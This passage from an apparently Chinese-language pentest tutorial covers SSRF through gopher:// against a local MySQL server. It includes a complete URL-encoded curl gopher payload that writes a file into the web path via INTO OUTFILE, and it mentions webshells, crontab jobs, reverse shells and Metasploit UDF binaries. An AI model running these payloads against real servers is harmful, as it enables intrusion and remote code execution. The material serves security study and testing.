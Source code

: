或者如果你嫌弃麻烦，直接使用大佬开发的工具<https://xz.aliyun.com/t/5844>即可，协议怎么转成gopher协议，本文不展开。

#####  secure_file_priv和写目录不受任何限制的情况下

如果不受**secure_file_priv**和任何目录的限制，可以直接是导出webshell，导出crontab任务，导入udf并反弹shell

```
show global variables like '%secure_file_priv%';

mysql> show global variables like '%secure_file_priv%';
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.00 sec)
```

所以可以直接执行

```
mysql -h 127.0.0.1 -uroot -e "select 'hello' into outfile '/var/lib/mysql-files/eval.php'";
```

转换成gopher协议利用即可

```
curl gopher://127.0.0.1:3306/_%a1%00%00%01%85%a2%3f%00%00%00%00%01%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%64%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%03%32%34%31%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%36%2e%34%36%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%3c%00%00%00%03%73%65%6c%65%63%74%20%27%68%65%6c%6c%6f%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%6c%69%62%2f%6d%79%73%71%6c%2d%66%69%6c%65%73%2f%65%76%61%6c%2e%70%68%70%27%01%00%00%00%01
```

udf攻击

```
mysql> show variables like "%plugin%";
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)
```

查看版本和操作系统到<https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql>下载

```
mysql> select @@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| Linux                | x86_64                    |
+----------------------+---------------------------+
1 row in set (0.00 sec)
```
